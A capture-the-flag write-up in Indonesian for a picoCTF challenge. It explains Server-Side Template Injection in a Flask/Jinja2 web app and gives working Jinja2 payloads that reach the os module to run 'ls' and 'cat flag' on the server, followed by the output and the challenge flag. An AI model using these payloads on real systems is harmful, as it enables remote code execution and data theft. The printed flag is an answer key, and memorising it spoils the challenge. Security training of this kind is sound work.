




Diberikan sebuah aplikasi web berbasis Flask/Python dengan fitur pengumuman (*announcement*). Petunjuk soal secara eksplisit menyebutkan kerentanan *Server-Side Template Injection* (SSTI).



SSTI (*Server-Side Template Injection*) terjadi ketika input pengguna dimasukkan langsung ke dalam template engine (Jinja2 pada framework Flask) tanpa sanitasi atau *parameterized context*. Template engine akan mengevaluasi dan mengeksekusi ekspresi yang berada di dalam sintaks `{{ ... }}` di sisi server.

Pada lingkungan Flask/Jinja2, objek `config` tersedia secara *built-in* pada *template context*. Melalui objek ini, kita dapat menelusuri hierarki *class* Python (`__class__` $\rightarrow$ `__init__` $\rightarrow$ `__globals__`) untuk mengakses modul `os` dan menjalankan perintah sistem (Remote Code Execution / RCE).

#### 1. Enumerasi Direktori (`ls`)
Mengirimkan payload SSTI berikut melalui form input pengumuman:
```jinja2
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```



Hasil eksekusi pada halaman `/announce` menampilkan daftar file di direktori kerja server:
```text
__pycache__ app.py flag requirements.txt
```
Teridentifikasi file bernama `flag`.

#### 2. Membaca Isi Flag (`cat flag`)
Membaca isi file `flag` dengan memodifikasi perintah shell pada payload:
```jinja2
{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}
```



Server mengeksekusi perintah tersebut dan menampilkan flag secara langsung pada halaman web.

---

**Flag:** `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bd4cfc64}`